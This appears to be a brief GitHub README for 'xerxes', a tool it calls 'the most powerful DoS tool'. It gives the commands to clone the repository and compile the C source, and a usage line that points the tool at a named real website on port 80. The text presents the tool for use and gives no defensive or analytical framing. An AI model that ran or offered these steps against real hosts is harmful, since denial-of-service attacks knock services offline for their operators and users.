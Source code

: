 # xerxes
XERXES the most powerful DoS tool
git clone https://github.com/mdali889/xerxes.git
cd xerxes
gcc xerxes.c -o xerxes
USAGE : ./xerxes www.techchip.net 80
